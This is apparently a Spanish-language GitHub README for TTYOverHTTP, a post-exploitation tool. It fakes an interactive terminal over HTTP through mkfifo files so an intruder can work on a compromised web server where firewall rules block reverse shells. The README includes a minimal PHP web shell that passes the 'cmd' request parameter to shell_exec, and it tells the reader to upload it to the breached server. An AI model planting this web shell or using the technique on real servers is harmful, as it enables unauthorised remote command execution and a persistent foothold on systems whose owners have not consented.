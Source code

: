 # TTYOverHTTP

En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (**Ej: iptables**) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para
obtener una TTY posteriormente completamente interactiva. A través de archivos
'**mkfifo**', jugamos para simular una TTY interactiva sobre HTTP, logrando
manejarnos sobre el sistema cómodamente sin ningún tipo de problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Una vez subido, simplemente ejecutamos el script (Es necesario cambiar la ruta en el script donde se sitúa nuestro script PHP alojado en el servidor vulnerado).
